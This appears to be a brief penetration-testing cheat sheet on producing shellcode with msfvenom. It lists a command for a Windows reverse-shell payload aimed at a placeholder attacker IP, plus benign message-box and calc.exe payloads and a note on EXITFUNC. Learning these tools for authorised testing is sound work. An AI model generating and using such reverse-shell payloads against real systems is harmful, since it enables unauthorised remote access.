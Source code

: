 ```yaml
---
description: 06/08/2022
---
```


# Generating Shellcode w/ MSFVenom

## Examples

### Reverse Shells

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP_HERE LPORT=1337 -f c
```

### Windows Message Box

```
msfvenom -p windows/x64/messagebox EXITFUNC=thread -f c
```

### "Pop Calc"

```
msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=thread -f c
```

## Notes

{% embed url="https://www.hacking-tutorial.com/tips-and-trick/what-is-metasploit-exitfunc/" %}

Why `EXITFUNC=thread`? It will specify a DLL and function to call when the payload is complete.&#x20;

`thread` is the most used in exploitation scenarios where the exploited process runs the shellcode in a subthread and upon exiting this thread will result in a working application/system (clean exit).
